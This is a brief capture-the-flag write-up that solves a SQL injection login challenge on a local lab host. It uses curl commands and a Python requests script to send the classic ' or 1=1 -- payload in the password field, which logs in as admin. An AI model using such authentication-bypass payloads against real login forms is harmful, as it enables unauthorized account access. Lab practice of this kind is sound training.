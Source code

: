 # SQLi 2

Send a request with the guest login. 

```curl -v -d “login-name=guest&pword=password” http://challenge.localhost:80/auth```

Same as last challenge, cookie and redirect. However, the password bypass no longer works. Since the request is expecting more after the injection, just need to comment that out using -- :

```curl -c cookie -d “login-name=admin&pword=‘ or 1=1 --“```

Rerun with cookie:

```curl -L -b cookie "http://challenge.localhost:80/auth"```

Or the python version, set it up to be reusable:
```python
import requests

path = “/auth”
url = f”http://challenge.localhost{path}”

data = {
“login-name”: “admin”,
“pword”: “' or 1=1 --”
}

r = requests.post(url=url, data=data)
print(r.text)
```
```python3 requesting.py```

Or in terminal:

```Python```
```
>>> import requests
>>> url = "http://challenge.localhost/auth"
>>> data = {"login-name":"admin", "pword":"' or 1=1 --"}
>>> r = requests.post(url=url, data=data)
>>> print(r.text)
```
